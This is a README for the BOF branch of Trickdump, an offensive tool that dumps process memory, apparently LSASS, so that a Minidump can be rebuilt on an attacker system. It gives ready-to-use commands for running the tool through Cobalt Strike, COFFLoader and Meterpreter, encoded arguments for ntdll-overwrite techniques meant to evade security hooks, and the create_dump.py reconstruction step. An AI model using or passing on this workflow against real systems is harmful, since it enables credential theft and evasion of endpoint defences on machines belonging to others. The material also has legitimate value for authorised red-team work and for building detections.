 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

You can execute the BOF files after importing each aggressor script:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

You can use use an argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)


I could not create a ZIP file using BOF files so the memory region dumps are created in a directory with a random name.

Use the updated *create_dump.py* script to generate the Minidump file in your attack system using the *-d* parameter for the directory path:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-d BARREL_DIRECTORY] [-o OUTPUT_FILE]
```

![bof5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF5.png)

If you prefer to generate all the files at the same time you can run Trick instead:

```
trick <OVERWRITE_TECHNIQUE>
``` 

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each one with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)


![img11](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF11.png)


--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the execute_bof module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o <OVERWRITE_TECHNIQUE>
```

Then create the Minidump file:

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)

The same happens with the Trick BOF:

```
execute_bof trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img13](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF13.png)

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)
